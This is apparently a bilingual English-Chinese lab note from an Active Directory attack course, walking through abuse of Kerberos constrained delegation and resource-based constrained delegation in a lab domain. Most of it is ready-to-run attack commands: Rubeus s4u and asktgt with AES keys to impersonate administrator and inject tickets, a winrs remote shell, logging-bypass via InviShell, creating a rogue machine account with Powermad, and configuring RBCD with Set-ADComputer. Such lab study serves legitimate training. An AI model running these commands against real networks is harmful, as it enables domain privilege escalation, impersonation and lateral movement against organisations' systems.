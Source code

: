 Use the AES key of studentx$ with Rubeus and access us-helpdesk as ANY user wewant
```
.\Rubeus.exe s4u /user:student1$ /aes256:d1027fbaf7faad598aaeff08989387592c0d8e0201ba453d83b9e6b7fc7897c2 /msdsspn:http/us-helpdesk /impersonateuser:administrator /ptt
```
然后
```
winrs -r:us-helpdesk cmd.exe
```

## Delegation - Kerberos Only

• It requires an additional forwardable ticket to invoke S4U2Proxy.（它需要一个额外的可转发票来调用S4U2Proxy。）
• We cannot use S4U2Self as the service doesn’t have TRUSTED_TO_AUTH_FOR_DELEGATION value configured.（ 我们不能使用S4U2Self，因为该服务没有
TRUSTED_TO_AUTH_FOR_DELEGATION值的配置）
• We can leverage RBCD to abuse Kerberos Only configuration.（我们可以利用RBCD来滥用Kerberos Only配置）


- Create a new Machine Account（创建一个新的机器账户）
- Configure RBCD on the machine configured with Constrained Delegation.（在配置了限制性授权的机器上配置RBCD。）
- Obtain a TGS/Service Ticket for the machine configured with Constrained Delegation by leveraging the newly created Machine Account.（通过利用新创建的机器账户，为配置了限制性授权的机器获取TGS/服务票。）
- Request a new forwardable TGS/Service Ticket by leveraging the ticket created in previous step.（通过利用上一步创建的票据，请求一个新的可转发的TGS/服务票据。）



使用ActiveDirectory module枚举约束委派
```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1

Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

使用Powermad.ps1脚本创建一个新的计算机用户
```
. C:\AD\Tools\Powermad\Powermad.ps1
New-MachineAccount -MachineAccount studentcompX
```

因为已经有了us-mgmt的完全控制权限
在us-mgmt上使用us-mgmt$得到账号配置RBCD
```
C:\AD\Tools\Rubeus.exe asktgt /user:us-mgmt$ /aes256:cc3e643e73ce17a40a20d0fe914e2d090264ac6babbb86e99e74d74016ed51b2 /impersonateuser:administrator /domain:us.techcorp.local /ptt /nowrap
```
然后
```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat

Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll

Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```
然后
```
Set-ADComputer -Identity us-mgmt$ -PrincipalsAllowedToDelegateToAccount studentcompX$ -Verbose
```
